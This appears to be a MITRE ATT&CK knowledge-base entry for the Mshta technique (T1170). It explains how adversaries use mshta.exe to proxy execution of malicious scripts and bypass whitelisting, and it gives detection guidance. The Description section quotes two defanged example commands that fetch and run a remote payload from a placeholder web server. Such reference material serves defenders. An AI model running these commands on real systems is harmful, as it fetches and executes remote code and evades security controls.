 ```yaml
---
contributors:
- Ricardo Dias
- Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank
id: attack-pattern--a127c32c-cbb0-4f9d-be07-881a792408ec
mitre_attack_url: https://attack.mitre.org/techniques/T1170
name: Mshta
platforms:
- Windows
tactics:
- defense-evasion
- execution
title: defense-evasion - Mshta
---
```


## Technical Details

| Attribute | Details |
|-----------|----------|
| **Tactics** | defense-evasion, execution |
| **Platforms** | Windows |
| **Permissions Required** | User |
| **MITRE ATT&CK URL** | [https://attack.mitre.org/techniques/T1170](https://attack.mitre.org/techniques/T1170) |

# Mshta (attack-pattern--a127c32c-cbb0-4f9d-be07-881a792408ec)

## Description
Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

## Detection
Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed binaries to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the binary being executed.

Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious.

## External References
- [mitre-attack](https://attack.mitre.org/techniques/T1170)
- [Wikipedia HTML Application](https://en.wikipedia.org/wiki/HTML_Application)
- [MSDN HTML Applications](https://msdn.microsoft.com/library/ms536471.aspx)
- [Cylance Dust Storm](https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf)
- [Red Canary HTA Abuse Part Deux](https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/)
- [FireEye Attacks Leveraging HTA](https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html)
- [Airbus Security Kovter Analysis](https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/)
- [FireEye FIN7 April 2017](https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html)
- [LOLBAS Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
